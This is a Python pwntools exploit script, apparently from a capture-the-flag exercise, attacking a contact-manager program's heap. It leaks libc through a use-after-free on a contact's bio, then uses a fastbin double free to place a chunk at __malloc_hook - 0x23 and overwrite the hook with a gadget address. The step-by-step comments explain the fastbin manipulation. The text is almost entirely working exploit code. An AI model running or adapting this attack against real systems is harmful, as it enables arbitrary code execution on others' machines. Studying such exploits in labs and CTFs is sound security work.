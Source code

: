```python
log.info("Address of puts() .got.plt: {}".format(hex(e.got["puts"])))
log.info("Address of puts() in libc: {}".format(hex(libc.symbols['puts'])))

create_contact("Leak1")
set_bio("Leak1", bio_as_contact.to_bytes())
free_bio("Leak1")
create_contact("Leak2") # Heap manager will allocate fake bio as Leak2 contact struct
puts_address = u64(get_bio("Leak2").ljust(8, '\x00'))
log.info("Runtime address of puts(): {}".format(hex(puts_address)))
libc_base = puts_address - libc.symbols['puts']
log.info("LibC base: {}".format(hex(libc_base)))
assert (libc_base & 0xFFF == 0)

libc.address = libc_base


create_contact("FBMem1")
create_contact("FBMem2")
create_contact("FBMem3")
create_contact("FBMem4")
create_contact("FBMem5")
create_contact("FBMem6")

user_alloc_size = 0x60 #Heap manager's request2size(0x60) = 0x70, putting this allocation in the same bin as a 0x7f allocation (dictated by logic below)

set_bio("FBMem1", cyclic(user_alloc_size)) 
set_bio("FBMem2", cyclic(user_alloc_size))

free_bio("FBMem1")
# head -> FBMem1 -> tail

free_bio("FBMem2") # To bypass "double free or corruption (fasttop)" check
# head -> FBMem2 -> FBMem1 -> tail

free_bio("FBMem1")
# head -> FBMem1 -> FBMem2 -> FBMem1 (-> FBMem2 -> FBMem1 -> ...)

offset_byte_7f = libc.symbols["__malloc_hook"] - 0x23 # Align so that: (a) __malloc_hook is within the allocated chunk (b) mchunk_size is 0x7f, within fastbin range
malloc_chunk_internal = MallocChunkInternal()
malloc_chunk_internal.p_fd = offset_byte_7f
malloc_chunk_internal.p_bk = 0 #tail

set_bio("FBMem3", fit({0: malloc_chunk_internal.to_bytes()}, filler = '\0', length = user_alloc_size) ) # Will allocate FBMem1. 
# FastBin: head -> FBMem2 -> FBMem1 (-> FBMem2 ...), and then: head -> FBMem2 -> FBMem1 -> offset_byte_7f -> ?

set_bio("FBMem4", cyclic(user_alloc_size)) # Will allocate FBMem2. FastBin: head -> FBMem1 -> offset_byte_7f -> ?
set_bio("FBMem5", cyclic(user_alloc_size)) # Will allocate FBMem1. FastBin: head -> offset_byte_7f -> ?


# If we requested the heap manager to allocate a chunk at (__malloc_hook - 0x23), it will actually return to the user the memory 
# starting at (__malloc_hook - 0x23 + sizeof(mchunk_prev_size) + sizeof(mchunk_size)) = (__malloc_hook - 0x23 + 8 + 8) = (__malloc_hook - 0x13).
# Therefore, we just pad the first meaningless 0x13 bytes, and only then place the pointer we want __malloc_hook to call.
set_bio("FBMem6", fit({0x13: p64(libc_base + gadget)}, filler = '\0', length = user_alloc_size) ) # will allocate offset_byte_7f (which was FBMem1->fd)
```